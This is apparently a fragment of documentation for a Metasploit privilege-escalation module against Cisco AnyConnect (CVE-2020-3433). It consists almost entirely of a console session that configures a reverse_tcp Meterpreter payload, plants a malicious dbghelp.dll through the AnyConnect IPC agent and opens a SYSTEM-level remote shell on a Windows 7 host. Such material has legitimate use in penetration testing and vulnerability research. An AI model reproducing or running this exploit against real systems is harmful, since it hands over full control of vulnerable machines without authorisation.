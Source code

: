 ```
Meterpreter     : x86/windows
```

### Windows 7 SP1  with AnyConnect 4.7.4056 - CVE-2020-3433

```
msf5 exploit(windows/local/anyconnect_lpe) > set session 4
session => 4
msf5 exploit(windows/local/anyconnect_lpe) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/anyconnect_lpe) > set lhost 192.168.1.24
lhost => 192.168.1.24
msf5 exploit(windows/local/anyconnect_lpe) > set lport 4445
lport => 4445
msf5 exploit(windows/local/anyconnect_lpe) > set verbose true
verbose => true
msf5 exploit(windows/local/anyconnect_lpe) > set cve CVE-2020-3433
cve => CVE-2020-3433
msf5 exploit(windows/local/anyconnect_lpe) > check 

[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.7.4056.0.0 < 4.8.02042 (CVE-2020-3153 & CVE-2020-3433).
msf5 exploit(windows/local/anyconnect_lpe) > run

[*] Started reverse TCP handler on 192.168.1.24:4445 
[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.7.4056.0.0 < 4.8.02042 (CVE-2020-3153 & CVE-2020-3433).
[*] "-ipc" argument needed
[*] Creating directory C:\Users\atgo\AppData\Local\Temp\fPTN4o
[*] Meterpreter Session
[*] C:\Users\atgo\AppData\Local\Temp\fPTN4o created
[*] Writing the payload to C:\Users\atgo\AppData\Local\Temp\fPTN4o\dbghelp.dll
[*] IPC Command: "CAC-nc-install        -ipc=88243      C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe     C:\Users\atgo\AppData\Local\Temp\fPTN4o\dbghelp.dll"
[*] Connecting to the AnyConnect agent on 127.0.0.1:62522
[*] Send the encoded IPC command (size = 288 bytes)
[*] Sending stage (176195 bytes) to 192.168.1.20
[*] Meterpreter session 6 opened (192.168.1.24:4445 -> 192.168.1.20:45102) at 2020-09-01 14:24:48 +0200
[+] Deleted C:\Users\atgo\AppData\Local\Temp\fPTN4o\dbghelp.dll
[+] Deleted C:\Users\atgo\AppData\Local\Temp\fPTN4o
[*] Shutdown the socket

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : ATGO-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
